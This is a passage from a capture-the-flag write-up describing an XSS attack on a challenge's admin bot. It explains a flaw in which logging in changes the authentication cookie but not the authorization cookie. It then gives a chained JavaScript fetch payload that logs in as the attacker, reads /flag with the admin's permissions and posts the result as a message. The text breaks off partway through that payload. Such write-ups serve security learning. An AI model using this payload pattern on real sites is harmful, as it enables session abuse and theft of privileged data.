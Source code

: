 ```python
        }
        post(BASE_URL + "/messages", cookies=cookies, data=form)

    driver.quit()
    return
```

We can see that in the login, the bot does a get request to the login page, enters the crednetials and submits them. During the 3s of `time.sleep`, the website redirects him to the home page which contains our message (with the XSS). This means we have 3s to do whatever we want with him.


The plan is to get the flag with his session and send the content in a message with another request. The problem is that his username is curently admin, so the condition `if username != "admin" and perms` prevents him to get the flag.

To fix this problem, we can look at the login endpoint. This endpoint only modifies the `authentication` (used to get the username) and not the `authorization` (used to get the permissions).

The chain that the bot needs to execute is :
- login with his credentials (done before the XSS)
- login with our credentials (only changes authentication cookie)
- get /flag
- send it by message

To do it, we used the account `a` and the following javascript code :

```js
fetch("/login", 
    {
        "headers": 
        {
            "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
            "accept-language": "fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7,zh;q=0.6",
            "cache-control": "no-cache",
            "content-type": "application/x-www-form-urlencoded",
            "pragma": "no-cache",
            "sec-gpc": "1",
            "upgrade-insecure-requests": "1"
        },
        "referrer": "/login",
        "referrerPolicy": "strict-origin-when-cross-origin",
        "body": "username=a&password=a",
        "method": "POST",
        "mode": "cors",
        "credentials": "include"
    
    }).then((r) => {
        fetch("/flag", 
        {
            "headers": 
            {
                "accept": "*/*",
                "accept-language": "fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7,zh;q=0.6",
                "cache-control": "no-cache",
                "pragma": "no-cache",
                "sec-gpc": "1",
                "x-requested-with": "XMLHttpRequest"
            },
            "referrer": "/chat",
            "referrerPolicy": "strict-origin-when-cross-origin",
            "mode": "cors",
            "credentials": "include" 
        }).then((r) => r.text().then((t) => {
            fetch("/messages", {
```